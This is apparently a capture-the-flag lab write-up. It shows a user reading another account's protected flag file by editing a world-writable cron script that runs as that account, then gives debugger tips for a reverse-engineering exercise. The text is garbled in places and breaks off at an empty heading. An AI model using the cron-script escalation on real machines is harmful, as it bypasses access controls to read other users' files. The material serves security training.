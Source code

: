 ```console
total 28
drwxrwxrwt  7 root root 4096 May 16 04:05 .
drwxr-xr-x 23 root root 4096 May 16 02:44 ..
drwxrwxrwt  2 root root 4096 May 16 02:43 .font-unix
drwxrwxrwt  2 root root 4096 May 16 02:43 .ICE-unix
drwxrwxrwt  2 root root 4096 May 16 02:43 .Test-unix
drwxrwxrwt  2 root root 4096 May 16 02:43 .X11-unix
drwxrwxrwt  2 root root 4096 May 16 02:43 .XIM-unix
sam@ip-10-10-50-118:~$ date # current time
Sat May 16 04:05:22 UTC 2020
```
Yes, the firt line show that the last access time is ```04:05``` and when executed date shows ```Sat May 16 04:05:22 UTC 2020```. The timestamp is show that **there is the cronjob running by ubuntu every minute**.


Since the ```clean_up.sh``` is own by ubuntu which is also the owner of ```flag2.txt```. we can use ```clean_up.sh``` to escalate our privilage and get the flag. we will edit the clean_up.sh and make it cat the content of flag2.txt for us. (CAN't copy since there is only read permission on flag2.txt -> ```-r-------- 1 ubuntu ubuntu 38 Dec 19 20:09 flag2.txt```)
```console
sam@ip-10-10-50-118:~$ nano /home/scripts/clean_up.sh 
```
add this:
```bash
# rm -rf /tmp/*
cat /home/ubuntu/flag2.txt > /home/sam/flag2.txt && chmod 777 /home/sam/flag2.txt
# note that I did chmod to make sure that we will have permission to open the the flie
```
now just cat the flag2.txt
```console
sam@ip-10-10-50-118:~$ cat flag2.txt 
THM{b27d33XXXXXXXXXXXXXXXXXXXXXXXXXX}
GLHF
```
# Day 21 : Reverse Elf-ineering 
```
McSkidy has never really touched low level languages - this is something they must learn in their quest to defeat the Christmas monster.

Download the archive and apply the command to the following binary files: chmod +x file-name

Please note that these files are compiled to be executed on Linux x86-64 systems.

The questions below are regarding the challenge1 binary file.
```
READ [this](https://drive.google.com/file/d/1maTcdquyqnZCIcJO7jLtt4cNHuRQuK4x/view?usp=sharing)
Use Ida pro freeware to solve
## What is the value of local_ch when its corresponding movl instruction is called(first if multiple)?
set break point after ```movl``` and point your mouse to ```local_ch```
## What is the value of eax when the imull instruction is called?
set break point after ```imull``` and point your mouse to ```eax```
## What is the value of local_4h before eax is set to 0?
set break point before ```mov eax 0``` can point ur mouse on ```local_4h```
# Day 22 : If Santa, Then Christmas 
```
```